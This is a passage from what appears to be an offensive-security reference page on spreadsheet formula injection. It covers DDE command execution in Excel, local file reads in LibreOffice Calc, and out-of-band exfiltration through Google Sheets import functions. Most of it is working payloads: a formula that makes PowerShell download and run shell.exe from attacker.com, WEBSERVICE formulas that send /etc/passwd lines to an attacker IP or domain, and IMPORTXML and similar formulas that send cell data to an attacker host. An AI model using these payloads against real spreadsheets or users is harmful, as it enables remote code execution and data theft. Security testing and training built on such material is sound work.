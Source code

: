 4. **Logging the Data:**
   * The attacker's server receives and logs the sensitive data sent from the teacher's computer.
   * The attacker can then use this data for various malicious purposes, further compromising the privacy and security of the students and the institution.

### RCE

**Check the** [**original post**](https://notsosecure.com/data-exfiltration-formula-injection-part1) **for further details.**

In specific configurations or older versions of Excel, a feature called Dynamic Data Exchange (DDE) can be exploited for executing arbitrary commands. To leverage this, the following settings must be enabled:

* Navigate to File → Options → Trust Center → Trust Center Settings → External Content, and enable **Dynamic Data Exchange Server Launch**.

When a spreadsheet with the malicious payload is opened (and if the user accepts the warnings), the payload is executed. For example, to launch the calculator application, the payload would be:

```markdown
=cmd|' /C calc'!xxx
```

Additional commands can also be executed, such as downloading and executing a file using PowerShell:

```bash
=cmd|' /C powershell Invoke-WebRequest "http://www.attacker.com/shell.exe" -OutFile "$env:Temp\shell.exe"; Start-Process "$env:Temp\shell.exe"'!A1
```

### Local File Inclusion (LFI) in LibreOffice Calc

LibreOffice Calc can be used to read local files and exfiltrate data. Here are some methods:

* Reading the first line from the local `/etc/passwd` file: `='file:///etc/passwd'#$passwd.A1`
* Exfiltrating the read data to an attacker-controlled server: `=WEBSERVICE(CONCATENATE("http://<attacker IP>:8080/",('file:///etc/passwd'#$passwd.A1)))`
* Exfiltrating more than one line: `=WEBSERVICE(CONCATENATE("http://<attacker IP>:8080/",('file:///etc/passwd'#$passwd.A1)&CHAR(36)&('file:///etc/passwd'#$passwd.A2)))`
* DNS exfiltration (sending read data as DNS queries to an attacker-controlled DNS server): `=WEBSERVICE(CONCATENATE((SUBSTITUTE(MID((ENCODEURL('file:///etc/passwd'#$passwd.A19)),1,41),"%","-")),".<attacker domain>"))`

### Google Sheets for Out-of-Band (OOB) Data Exfiltration

Google Sheets offers functions that can be exploited for OOB data exfiltration:

* **CONCATENATE**: Appends strings together - `=CONCATENATE(A2:E2)`
* **IMPORTXML**: Imports data from structured data types - `=IMPORTXML(CONCAT("http://<attacker IP:Port>/123.txt?v=", CONCATENATE(A2:E2)), "//a/a10")`
* **IMPORTFEED**: Imports RSS or ATOM feeds - `=IMPORTFEED(CONCAT("http://<attacker IP:Port>//123.txt?v=", CONCATENATE(A2:E2)))`
* **IMPORTHTML**: Imports data from HTML tables or lists - `=IMPORTHTML (CONCAT("http://<attacker IP:Port>/123.txt?v=", CONCATENATE(A2:E2)),"table",1)`
* **IMPORTRANGE**: Imports a range of cells from another spreadsheet - `=IMPORTRANGE("https://docs.google.com/spreadsheets/d/[Sheet_Id]", "sheet1!A2:E2")`
* **IMAGE**: Inserts an image into a cell - `=IMAGE("https://<attacker IP:Port>/images/srpr/logo3w.png")`
